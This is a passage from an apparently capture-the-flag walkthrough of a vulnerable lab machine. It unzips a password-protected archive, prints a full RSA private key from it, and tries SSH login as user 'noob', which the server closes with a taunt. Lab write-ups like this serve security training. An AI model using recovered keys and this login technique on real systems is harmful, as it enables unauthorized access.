 We unzip the **lmao.zip** file.

```console
root@kali:~$ unzip lmao.zip
Archive:  lmao.zip
[lmao.zip] noob password: 
  inflating: noob
```

The **noob** file contains a private key, we can login with this via SSH.

```console
root@kali:~$ cat noob 
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAsIthv5CzMo5v663EMpilasuBIFMiftzsr+w+UFe9yFhAoLqq
yDSPjrmPsyFePcpHmwWEdeR5AWIv/RmGZh0Q+Qh6vSPswix7//SnX/QHvh0CGhf1
/9zwtJSMely5oCGOujMLjDZjryu1PKxET1CcUpiylr2kgD/fy11Th33KwmcsgnPo
q+pMbCh86IzNBEXrBdkYCn222djBaq+mEjvfqIXWQYBlZ3HNZ4LVtG+5in9bvkU5
z+13lsTpA9px6YIbyrPMMFzcOrxNdpTY86ozw02+MmFaYfMxyj2GbLej0+qniwKy
e5SsF+eNBRKdqvSYtsVE11SwQmF4imdJO0buvQIDAQABAoIBAA8ltlpQWP+yduna
u+W3cSHrmgWi/Ge0Ht6tP193V8IzyD/CJFsPH24Yf7rX1xUoIOKtI4NV+gfjW8i0
gvKJ9eXYE2fdCDhUxsLcQ+wYrP1j0cVZXvL4CvMDd9Yb1JVnq65QKOJ73CuwbVlq
UmYXvYHcth324YFbeaEiPcN3SIlLWms0pdA71Lc8kYKfgUK8UQ9Q3u58Ehlxv079
La35u5VH7GSKeey72655A+t6d1ZrrnjaRXmaec/j3Kvse2GrXJFhZ2IEDAfa0GXR
xgl4PyN8O0L+TgBNI/5nnTSQqbjUiu+aOoRCs0856EEpfnGte41AppO99hdPTAKP
aq/r7+UCgYEA17OaQ69KGRdvNRNvRo4abtiKVFSSqCKMasiL6aZ8NIqNfIVTMtTW
K+WPmz657n1oapaPfkiMRhXBCLjR7HHLeP5RaDQtOrNBfPSi7AlTPrRxDPQUxyxx
n48iIflln6u85KYEjQbHHkA3MdJBX2yYFp/w6pYtKfp15BDA8s4v9HMCgYEA0YcB
TEJvcW1XUT93ZsN+lOo/xlXDsf+9Njrci+G8l7jJEAFWptb/9ELc8phiZUHa2dIh
WBpYEanp2r+fKEQwLtoihstceSamdrLsskPhA4xF3zc3c1ubJOUfsJBfbwhX1tQv
ibsKq9kucenZOnT/WU8L51Ni5lTJa4HTQwQe9A8CgYEAidHV1T1g6NtSUOVUCg6t
0PlGmU9YTVmVwnzU+LtJTQDiGhfN6wKWvYF12kmf30P9vWzpzlRoXDd2GS6N4rdq
vKoyNZRw+bqjM0XT+2CR8dS1DwO9au14w+xecLq7NeQzUxzId5tHCosZORoQbvoh
ywLymdDOlq3TOZ+CySD4/wUCgYEAr/ybRHhQro7OVnneSjxNp7qRUn9a3bkWLeSG
th8mjrEwf/b/1yai2YEHn+QKUU5dCbOLOjr2We/Dcm6cue98IP4rHdjVlRS3oN9s
G9cTui0pyvDP7F63Eug4E89PuSziyphyTVcDAZBriFaIlKcMivDv6J6LZTc17sye
q51celUCgYAKE153nmgLIZjw6+FQcGYUl5FGfStUY05sOh8kxwBBGHW4/fC77+NO
vW6CYeE+bA2AQmiIGj5CqlNyecZ08j4Ot/W3IiRlkobhO07p3nj601d+OgTjjgKG
zp8XZNG8Xwnd5K59AVXZeiLe2LGeYbUKGbHyKE3wEVTTEmgaxF4D1g==
-----END RSA PRIVATE KEY-----
```


## Exploitation
### Access via SSH

We login through SSH as user noob, but we don't have a shell, the server closes us the connection.

```console
root@kali:~$ ssh -i noob -l noob 192.168.179.183
TRY HARDER LOL!
Connection to 192.168.179.183 closed.
```
